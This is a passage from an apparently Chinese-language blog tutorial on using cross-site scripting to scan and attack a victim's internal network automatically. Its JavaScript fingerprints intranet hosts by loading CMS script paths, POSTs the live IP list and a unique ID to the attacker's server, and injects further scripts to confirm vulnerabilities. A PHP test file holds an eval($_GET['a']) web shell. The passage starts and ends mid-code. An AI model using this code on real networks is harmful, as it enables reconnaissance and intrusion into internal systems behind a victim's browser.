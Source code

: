```javascript
                document.getElementsByTagName("body")[0].appendChild(scriptTag);
            }
        }
    }
}
ipAjax.open('POST', snedIteratesIpUrl, false);
ipAjax.setRequestHeader("Content-type","application/x-www-form-urlencoded");
ipAjax.send('iplist='+ip+'&onlystring='+onlyString);
```
发送内网中开放80端口且具有站点的ip地址，并同时发送唯一标识符。用于服务端验证。
服务端接受后，发送json数据，服务端代码如下：
```php
$this->ajaxReturn(array(
    "typeMsg" => "success",
    "path"    => $pathInfo,
));
```
然后使用if(ipAjax.readyState == 4 && ipAjax.status == 200)来判断是否发送成功，成功后，把json里的path数据赋值cmsPath变量。用于后面的代码调用。首先进入for循环，cmsPath['key']为当前的cms路径。然后再来套一个for循环，survivalIpLIst[i]为当前循环的IP地址。
接下来就是建立一个script标签的DOM元素，其中的data-ipadder、data-cmsinfo是为了让后面的代码方便调用。`onload = " javascript:vulnerabilityIpList(this)"`是当这个地址存在的时候，调用的一个函数，下一节会说到。
现在先让我们看看数据库在的cmsPath是什么样的把：

![](/images/use-xss-automation-invade-intranet/7.png)

默认就这4个，更多的路径可以自行加入。
为了方便测试，我在我家中的另一台电脑上部署了代码，只有index.php、/static/bbcode.js、vul/heihei.php、favicon.ico这几个文件。而在heihei.php文件里代码如下：
```php
<?php
   eval($_GET['a']);
```
为什么是这个呢，很简单。我手里面没有Discuz的getshell漏洞。为了徒省事。就这样把。而favicon.ico文件我也很随意的使用了dedecms的favicon.ico。后面测试的时候，还望不要见怪。
现在我们来运行下代码看下会发生什么事情吧：

![](/images/use-xss-automation-invade-intranet/8.png)

我在/static/bbcode.js文件里写入的是console.log(1)所有会在控制台反馈1。这只是测试的代码，真实的环境是不会这样的。现在我们来看下DOM元素有些改变把：

![](/images/use-xss-automation-invade-intranet/9.png)

已经调用了，程序检测到只有http://192.168.1.103/static/js/bbcode.js符合。那么一旦成功调用js文件，就会执行onlod里的vulnerabilityIpList(this)代码。而vulnerabilityIpList函数代码就在下一节。

## 0x06 检测内网主机中的漏洞是否真实存在（上篇）：

下面就是vulnerabilityIpList函数的代码：
```javascript
function vulnerabilityIpList(info){
    stage(3)
    ipAjax = new XMLHttpRequest();
    ipAjax.onreadystatechange = function(){
        if(ipAjax.readyState == 4 && ipAjax.status == 200){
            var vulCmsInfo = ipAjax.responseText;
            var img = document.createElement("img");
            img.setAttribute("scr",vulCmsInfo);
            img.setAttribute("style","display:none;");
            document.getElementsByTagName("body")[0].appendChild(img);
            setTimeout(function(){
                var scriptTag = document.createElement("script");
                scriptTag.setAttribute("src","http://"+info.getAttribute('data-ipadder')+"/1.js");
                scriptTag.setAttribute("data-cmsinfo",info.getAttribute("data-cmsinfo"));
                scriptTag.setAttribute("data-vulip",info.getAttribute('data-ipadder'));
                scriptTag.setAttribute("onload","javascript:vulConfirm(this)");
```
